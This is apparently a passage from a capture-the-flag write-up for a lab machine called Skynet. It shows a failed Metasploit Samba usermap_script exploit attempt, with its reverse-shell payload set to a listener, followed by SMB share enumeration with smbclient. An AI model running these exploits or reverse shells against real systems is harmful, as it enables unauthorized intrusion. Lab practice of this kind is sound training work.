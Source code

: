   the Nmap scan earlier said on port 445 it was running Samba smbd 3.X - 4.X which upon googling has known vulnerabilities. I tried this one I saw online but couldn't get the shell to pop.

----------------------------------------------------------------------------------------------------------

msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.188.99     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/bas
                                       ics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.23.80.154     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP double handler on 10.23.80.154:4444 
[*] Exploit completed, but no session was created.
msf6 exploit(multi/samba/usermap_script) > unset all
Unsetting datastore...
msf6 exploit(multi/samba/usermap_script) > 

safe to say I continued enumerating samba

┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.188.99
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
